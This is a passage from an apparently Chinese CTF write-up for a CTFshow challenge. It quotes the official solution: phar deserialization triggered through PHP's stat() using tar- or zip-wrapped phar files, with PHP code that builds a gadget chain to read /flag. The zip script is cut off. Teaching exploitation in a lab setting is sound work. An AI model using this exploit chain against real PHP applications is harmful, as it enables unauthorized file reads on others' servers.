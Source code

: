 压缩包还有相关函数猜测是phar反序列化？出去打球了，等一手wp

打球回来，wp已出，[CTFshow 吃瓜杯 WP汇总 (shimo.im)](https://shimo.im/docs/gwpcxkryVJwyJVHR/read)

> 的确是phar，`stat()` 这个php函数用的很少, 用于返回关于文件的信息, 但是它也可以触发 phar 文件, 这里主要是考察了通过 zip 或 tar 文件包装的phar文件进行触发
>
> tar：
>
> ```php
> <?php
>  class View {    
>  public $fn;    
>  public function __invoke(){        
>      $text = base64_encode(file_get_contents($this->fn));
>      echo "<script>alert('".$text."');self.location=document.referrer;</script>";
>  }
> }
> class Fun{    
>  public $fun = ":)";
>  public function __toString(){
>      $fuc = $this->fun;
>      $fuc();
>      return "<script>alert('Be a happy string~');self.location=document.referrer;</script>";
>  }
>  public function __destruct()    {
>      echo "<script>alert('Just a fun ".$this->fun."');self.location=document.referrer;</script>";
>  }
> }
> $a = new View();
> $a->fn = '/flag';
> $b = new Fun();
> $b->fun = $a;
> $c = new Fun();
> $c->fun = $b;
> @unlink("phar.tar");
> @system('rm -r .phar');
> @system('mkdir .phar');
> file_put_contents('.phar/.metadata',serialize($c));
> system('tar -cf phar.tar .phar/*');
> ```
>
> zip：
>
> ```php
> <?php
>  class View {    
>  public $fn;    
>  public function __invoke(){        
>      $text = base64_encode(file_get_contents($this->fn));
>      echo "<script>alert('".$text."');self.location=document.referrer;</script>";
>  }
> }
> class Fun{    
>  public $fun = ":)";
>  public function __toString(){
>      $fuc = $this->fun;
>      $fuc();
>      return "<script>alert('Be a happy string~');self.location=document.referrer;</script>";
>  }
>  public function __destruct()    {
>      echo "<script>alert('Just a fun ".$this->fun."');self.location=document.referrer;</script>";
>  }
> }
> $a = new View();